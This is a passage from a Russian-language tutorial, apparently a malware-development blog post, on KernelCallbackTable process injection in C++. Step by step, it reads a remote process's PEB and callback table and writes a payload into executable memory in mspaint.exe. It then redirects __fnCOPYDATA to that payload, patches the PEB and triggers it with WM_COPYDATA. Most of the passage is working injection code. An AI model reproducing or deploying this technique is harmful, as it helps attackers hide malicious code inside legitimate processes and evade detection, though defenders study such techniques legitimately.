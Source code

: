 После этого читаем `PEB` и существующий адрес таблицы:    

```cpp
HMODULE ntdll = GetModuleHandleA("ntdll");
pNtQueryInformationProcess myNtQueryInformationProcess = 
(pNtQueryInformationProcess)(GetProcAddress(
ntdll, "NtQueryInformationProcess"));

myNtQueryInformationProcess(ph, 
ProcessBasicInformation, 
&pbi, sizeof(pbi), NULL);

ReadProcessMemory(ph, pbi.PebBaseAddress, 
&peb, sizeof(peb), NULL);
ReadProcessMemory(ph, peb.KernelCallbackTable, 
&kct, sizeof(kct), NULL);
```

Затем записываем полезную нагрузку в удаленный процесс через `VirtualAllocEx` и `WriteProcessMemory`:    

```cpp
LPVOID rb = VirtualAllocEx(ph, NULL, sizeof(my_payload),
MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(ph, rb, my_payload, 
sizeof(my_payload), NULL);
```

Используем `VirtualAllocEx`, который позволяет выделить буфер памяти для удаленного процесса, затем `WriteProcessMemory` позволяет копировать данные между процессами, таким образом, мы копируем наш полезный код в процесс `mspaint.exe`.    

Записываем новую таблицу в удаленный процесс:    

```cpp
LPVOID tb = VirtualAllocEx(ph, NULL, sizeof(kct), 
MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
kct.__fnCOPYDATA = (ULONG_PTR)rb;
WriteProcessMemory(ph, tb, &kct, sizeof(kct), NULL);
```

Обновляем `PEB`:    

```cpp
WriteProcessMemory(ph, 
(PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable), 
&tb, sizeof(ULONG_PTR), NULL);
```

Запускаем выполнение полезной нагрузки:    

```cpp
cds.dwData = 1;
cds.cbData = lstrlen((LPCSTR)msg) * 2;
cds.lpData = msg;

SendMessage(hw, WM_COPYDATA, (WPARAM)hw, (LPARAM)&cds);
```
